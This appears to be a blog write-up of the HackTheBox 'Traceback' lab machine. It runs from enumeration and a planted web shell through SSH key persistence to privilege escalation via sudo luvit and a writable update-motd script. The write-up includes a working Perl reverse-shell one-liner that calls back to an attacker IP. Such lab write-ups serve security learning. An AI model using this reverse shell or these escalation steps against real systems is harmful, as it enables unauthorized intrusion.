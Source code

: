 ```yaml
---
title: Traceback Writeup - Machine
author: Sujit Suryawanshi
date: 2020-08-01 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, traceback]
---
```


<h2 data-toc-skip>Writeup of Traceback Machine (HackTheBox)</h2>


![Desktop View]({{ "/assets/img/htb-machines/traceback-main.png" | relative_url }})

Today I did Traceback box from HackTheBox.
It was nice box, CTF-like box in which the website has been hacked and placed one backdoor shell to access.
So the backdoor shell was the way to get initial shell and then need to get user by adding own ssh keys and then can go for Privilege Escalation to get root.

The box was using UpdateMotd which was running one custom script after a particular time. And the user had access to write into 00-header file which was executing.
Se lets move and Pwn this box.


---

<h3 data-toc-skip>Starting with Nmap</h3>

#### sudo nmap -sC -sV -T4 10.10.10.181

![Desktop View]({{ "/assets/img/htb-machines/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -T4 for Timing.
As you can see there are two ports open that is port 22 and 80. Port 80 hosting web server which has Apache httpd 2.4.29 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.



After opening the website in browser, There was note from hacker who have defaced the site.

![Desktop View]({{ "/assets/img/htb-machines/traceback-website-defaced.png" | relative_url }})

Continuing to enumeration I checked the page source of website for comments and other juicy information.
Then I found one comment in HTML page of website.

![Desktop View]({{ "/assets/img/htb-machines/traceback-html-comment.png" | relative_url }})

After doing some web fuzzing using names of common backdoor shell, I found there was shell named "smevk.php" <http://10.10.10.181/smevk.php>

![Desktop View]({{ "/assets/img/htb-machines/traceback-ffuf.png" | relative_url }})

Visiting above url, Got login page of web shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell.png" | relative_url }})

I used default credentials as admin:admin to login into shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell-login.png" | relative_url }})

So here we got the access to backdoor shell and it's time to get full interactive shell.
Moving forward, I did some google for getting tty shell and got a tty shell using perl command given below.

perl
perl -e 'use Socket;$i="10.10.14.167";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


Then I used /usr/bin/script -qc /bin/bash /dev/null to make tty shell interactive.

Basically what this command does here -qc is script flag and -c means running a command instead of an interactive shell & -q means to be quiet as in not to print output through STDOUT.

Moving further, I found that machine has two users that is webadmin and sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-users-list.png" | relative_url }})

As I had access of .ssh of folder I added my system's key in authorized_keys file so that I'll get access of this system using ssh.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-keys.png" | relative_url }})

After doing login by ssh I saw a weird message printed on screen.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-login.png" | relative_url }})

Anyway lets move further for sysadmin user.
While enumerating more, I found note.txt which contains,

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-note.png" | relative_url }})

Checking sudo -l, I got that luvit was allowed to run as sudo with sysadmin user.

![Desktop View]({{ "/assets/img/htb-machines/traceback-luvit.png" | relative_url }})

So for Privilege Escalation and User flag I ran luvit with sudo and executed "/bin/bash" which gave me sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-user.png" | relative_url }})

Next part in Privilege Escalation for root.
So while enumerating for root, I saw one odd service like,

root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

After checking out both directories which are given in above service, I found writable file under "/etc/update-motd.d/" directory named 00-header.

So this file was executing and printing some text on login of SSH.

![Desktop View]({{ "/assets/img/htb-machines/traceback-00-header.png" | relative_url }})

Also the file was writable by sysadmin user which we have already owned.

Then I read flag by appending my command in the 00-header file and re-logged in using SSH and got root.txt also


![Desktop View]({{ "/assets/img/htb-machines/traceback-root.png" | relative_url }})

![Desktop View]({{ "/assets/img/htb-machines/traceback-root-1.png" | relative_url }})


Thanks for reading this writeup and all suggestions are welcome.
